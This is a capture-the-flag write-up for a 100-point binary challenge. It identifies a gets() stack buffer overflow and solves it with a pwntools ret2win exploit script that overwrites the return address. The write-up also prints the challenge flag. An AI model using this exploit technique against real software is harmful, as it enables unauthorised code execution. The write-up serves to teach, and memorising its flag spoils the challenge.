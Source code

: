 # Easy Peasy

## Description

> A super secret piece of information has been hidden behind a program made by 1337 hackers.
> Find this crucial piece of information
>
> Author: Anand Rajaram

Tags: _binary_ \
Difficulty: _easy_ \
Points: _100_

## Solution

When executing the binary, the user is asked to insert a password

```
$ ./ezpz
Please enter the super secret password to display the flag:
password1234
Invalid password, try again
```

If we insert a large text, it throws a `Segmentation fault`, which means it is vulnerable to `buffer overflow` attacks.

```
$ ./ezpz
Please enter the super secret password to display the flag:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault

```

We can confirm that by opening the binary with a disassembler like `ghidra` in which we can see three important functions; `main`, `vuln`, and `win`

```c
undefined8 main(void)

{
  puts("Please enter the super secret password to display the flag:");
  fflush((FILE *)stdout);
  vuln();
  puts("Invalid password, try again\n");
  return 0;
}
```

```c
void vuln(void)

{
  char local_28 [32];

  gets(local_28);
  return;
}
```

```c
void win(void)

{
  char local_58 [72];
  FILE *local_10;

  local_10 = fopen64("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    printf("%s %s","Please create \'flag.txt\' in this directory with your","own debugging flag.\n")
    ;
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_58,0x40,local_10);
  printf(local_58);
  return;
}
```

By watching this code we know that this is a classic `ret2win` challenge, where we have to overwrite the return address with a `buffer overflow` to execute the `win` function and get the flag.

It is also important to check the security posture of the binary by executing the command `checksec` to see what kind of vulnerabilities we can exploit.

```shell
$ checksec ezpz
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

According to the output of `checksec`, the security of this binary appears to be weak. While the binary likely contains a `canary`, it's worth noting that the canary protection isn't present in the `vuln` function, which is the specific function we intend to exploit. This indicates that the initial conditions for the exploit are favorable.

The following steps are the recipe for solving `ret2win` challenges:

1. Determine the offset between the start of the user input and the return address in the stack.
2. Fill the stack with random data until it reaches the return address.
3. Overwrite the return address with a `ret` gadget. This gadget redirects the flow of execution to the address of the next function we specify after the gadget, creating a [`ROP chain`](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming). This step helps avoid potential stack alignment issues.
4. Incorporate the address of the `win` function into the payload.

To find the offset, I usually use `cyclic`, which is available in the `pwndbg` plug-in of the `GDB` debugger.

```
$ gdb ezpz
...
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> run
```

Copy the 100-character string, then paste it when the program prompts for the password. It should crash trying to go to the specific memory address in `ret` (return address) `0x6161616161616166`. Use `cyclic -l <ret_addr>` again to get the exact offset where we will start overwriting the return address.

```
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

I will use the Python library `pwntools` to execute the following steps. Note that the exploit is encapsulated inside the _"EXPLOIT GOES HERE"_ section. The remaining code serves as a template, where you should only change the remote connection parameters with the actual values of your instance.

```Python
#!/usr/bin/python3
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("ezpz")

# Defining the GDB script that will be used when running the
# binary
gs = '''
continue
'''

# Launch the binary with GDB, without GDB or REMOTE based on
# the command-line arguments
def start():
    if args.REMOTE:
        return remote("3.110.66.92", 31636)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

#============================================================
#                    EXPLOIT GOES HERE
#============================================================

# Find a ret gadget
ret = asm('ret')
ret = next(elf.search(ret))

# ret address is a padding to avoid stack alignment issues and
# the main function allows the program to print the flag remotely
payload = b"A"*40 + p64(ret) + p64(elf.sym.win) + p64(elf.sym.main)

# Send the payload
io.sendline(payload)

#============================================================

# Interact with the process
io.interactive()
```

In my script I added the `main` function at the end of the payload because it didn't work remotely without it. I am not pretty sure the reason for this behavior, but I guess it happens because the `win` function does not return properly, causing the process to finish before it can print the flag. When we add the `main` function to the payload, the execution proceeds as expected, resulting in the successful printing of the flag.

Flag `dsc{tH15_N3W_Fl4G_15_aW350M3!}`
